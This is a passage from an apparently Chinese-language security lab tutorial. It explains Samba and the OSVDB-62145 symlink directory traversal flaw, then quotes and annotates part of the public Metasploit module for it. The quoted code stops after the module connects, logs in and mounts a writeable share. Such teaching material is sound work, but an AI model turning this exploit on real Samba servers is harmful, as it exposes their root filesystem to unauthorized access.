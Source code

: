 ### 3.2 分析 Samba 漏洞

Samba，是种用来让 UNIX 系列的操作系统与微软 Windows 操作系统的 SMB/CIFS（Server Message Block/Common Internet File System）网络协议做链接的自由软件。第三版不仅可访问及分享 SMB 的文件夹及打印机，本身还可以集成入 Windows Server 的网域，扮演为网域控制站（Domain Controller）以及加入 Active Directory 成员。简而言之，此软件在 Windows 与 UNIX 系列 OS 之间搭起一座桥梁，让两者的资源可互通有无。

Samba 的应用范围非常广泛，因此漏洞的影响面也非常之大。Samba 能够为选定的 Unix 目录（包括所有子目录）创建网络共享。该功能使得 Windows 用户可以像访问普通 Windows 下的文件夹那样来通过网络访问这些 Unix 目录。


本实验所用的漏洞索引为：

> [OSVDB-62145](https://www.rapid7.com/db/modules/auxiliary/admin/smb/samba_symlink_traversal#)

实验中，我们对 samba 模块使用的源码索引为：

> [symlink_traversal.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/admin/smb/samba_symlink_traversal.rb)

对核心代码进行讲解：

```
   # 模块初始化信息，包含作者信息，模块信息介绍
  def initialize
    super(
      'Name'        => 'Samba Symlink Directory Traversal',
      'Description' => %Q{
        This module exploits a directory traversal flaw in the Samba
      CIFS server. To exploit this flaw, a writeable share must be specified.
      The newly created directory will link to the root filesystem.
      },
      'Author'      =>
        [
          'kcope', # http://lists.grok.org.uk/pipermail/full-disclosure/2010-February/072927.html
          'hdm'    # metasploit module
        ],
      'References'  =>
        [
          ['OSVDB', '62145'],
          ['URL', 'http://www.samba.org/samba/news/symlink_attack.html']
        ],
      'License'     => MSF_LICENSE
    )

    # 注册信息选项
    register_options([
      OptString.new('SMBSHARE', [true, 'The name of a writeable share on the server']),
      OptString.new('SMBTARGET', [true, 'The name of the directory that should point to the root filesystem', 'rootfs'])
    ], self.class)

  end
  
  
  # 程序主要的运行函数
  def run
  
    # 程序连接服务器函数
    print_status("Connecting to the server...")
    connect()
    smb_login()

    
    # 连接目标主机    
    print_status("Trying to mount writeable share '#{datastore['SMBSHARE']}'...")
    self.simple.connect("\\\\#{rhost}\\#{datastore['SMBSHARE']}")

```